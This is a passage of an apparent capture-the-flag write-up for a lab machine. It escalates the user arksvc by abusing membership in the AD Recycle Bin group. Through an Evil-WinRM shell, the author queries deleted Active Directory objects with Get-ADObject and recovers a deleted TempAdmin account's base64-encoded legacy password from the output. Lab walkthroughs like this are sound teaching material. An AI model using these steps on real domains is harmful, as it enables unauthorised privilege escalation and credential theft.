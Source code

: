 ### arksvc --> Administrator

Let's see what groups this user is part of

```shell
*Evil-WinRM* PS C:\Users\arksvc\Documents> net user arksvc
User name                    arksvc
Full Name                    ArkSvc
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/9/2020 5:18:20 PM
Password expires             Never
Password changeable          1/9/2020 5:18:20 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/29/2020 10:05:40 PM

Logon hours allowed          All

Local Group Memberships      *AD Recycle Bin       *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

We see `arksvc` is part of the group `AD Recycle Bin`.

This group gives permission to read deleted AD objects.

Let's list the deleted objects using the following command:

```shell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

```shell
[...]
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin                                                                                     
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059                                                                                    
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz                                                                                                        
CN                              : TempAdmin                                                                                                                   
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059                                                                                    
codePage                        : 0                                                                                                                           
countryCode                     : 0                                                                                                                           
Created                         : 1/27/2020 3:23:08 AM                                                                                                        
createTimeStamp                 : 1/27/2020 3:23:08 AM                                                                                                        
Deleted                         : True                                                                                                                        
Description                     :
```